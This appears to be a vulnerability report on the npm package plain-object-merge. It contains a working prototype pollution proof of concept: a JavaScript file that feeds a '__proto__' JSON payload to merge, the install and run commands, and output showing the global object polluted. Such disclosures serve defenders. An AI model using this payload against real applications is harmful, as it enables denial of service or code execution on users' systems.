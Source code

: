 # Description

`plain-object-merge` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const merge = require('plain-object-merge')

console.log('Before: ' + {}.polluted)
merge([{}, JSON.parse('{"__proto__": {"polluted": true}}')])
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i plain-object-merge # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

